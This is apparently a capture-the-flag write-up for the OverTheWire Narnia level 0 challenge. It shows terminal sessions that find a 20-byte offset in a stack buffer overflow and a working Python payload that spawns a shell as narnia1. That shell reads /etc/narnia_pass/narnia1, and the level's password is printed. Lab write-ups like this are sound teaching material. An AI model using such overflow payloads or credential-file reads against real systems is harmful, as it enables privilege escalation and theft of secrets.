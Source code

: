 # Narnia 0

```
narnia0@narnia:/narnia$ ls -la 
...
-r-sr-x---  1 narnia1 narnia0 7456 Aug 26  2019 narnia0
-r--r-----  1 narnia0 narnia0 1229 Aug 26  2019 narnia0.c
...
```
```
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: foobar
buf: foobar
val: 0x41414141
WAY OFF!!!!
```

A simple pattern repeating a single letter 4 times.

```
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
buf: AAAABBBBCCCCDDDDEEEEFFFF
val: 0x46464646
WAY OFF!!!!
```
We can tell from this that we need 20 bytes of junk data, but just to verify

```
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

Now we need overwrite val with `0xdeadbeef`. Because the system is little-endian it must be written in reverse, in sequence of two like this `ad de ef be`.

This will be the final payload

```
(python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
```

It's important to add the `; cat` because otherwise the shell will not stay up. This allows us to pipe the input to `cat` so that we can send commands

```
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```
